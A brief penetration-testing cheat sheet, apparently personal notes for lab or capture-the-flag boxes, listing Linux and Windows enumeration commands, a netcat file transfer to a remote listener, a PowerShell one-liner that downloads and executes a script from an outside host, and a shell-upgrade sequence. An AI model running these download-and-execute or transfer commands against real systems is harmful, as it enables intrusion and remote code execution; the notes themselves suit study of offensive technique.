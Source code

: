 # Tips

LinuxEnum: 

find / -perm -4000 2>/dev/null   //SUID files  \n
uname -a                         //Posible Linux Kernel Exploit

WindowsEnum:
whoami /all
systeminfo


File Transfer:
nc:
nc -l -p 4445 > ovrflw
nc -w 5 10.10.14.18 4445 < /usr/local/bin/ovrflw

powershell:

iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/file')


Interactive shell:

python3 -c "import pty;pty.spawn('/bin/bash')"
Ctrl+Z
stty raw -echo
fg
